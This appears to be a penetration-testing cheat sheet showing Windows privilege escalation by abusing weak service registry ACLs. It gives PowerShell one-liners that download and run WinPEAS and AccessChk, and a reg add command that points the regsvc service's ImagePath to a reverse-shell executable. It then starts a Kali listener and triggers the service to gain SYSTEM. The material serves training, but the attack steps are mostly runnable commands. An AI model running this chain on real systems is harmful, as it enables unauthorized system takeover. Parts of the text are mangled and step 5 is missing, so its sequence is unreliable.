

Weak Registry Permissions
Weak Registry Permissions
• The Windows registry stores entries for each service.
• Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.
1. Check for service misconfigurations:
◇ WinPEAS generally check for service misconfigurations:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet servicesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";2. Confirm the found service with:
◇ Get-Acl
PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
◇ AccessChk(old version for command line):
https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip%22,%20%22$env:userprofile/desktop/Accesschk.zip PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip"; NT AUTHORITY\INTERACTIVE group has full control over the registry entry “regsvc”. This is a sudo group that comprise all the users who can login into the system locally.
3. Check if we can STOP/START the service
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -ucqv $env:username regsvc";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";4. Check current value of the register entry
C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc
Run with SYSTEM privileges!
6. Overwrite the ImagePath registry key to point to our reverse shell executable:
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
7. Start a listener on Kali:
8. Start the service to trigger the exploit:
 Bibliography:
•
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-modify-permissions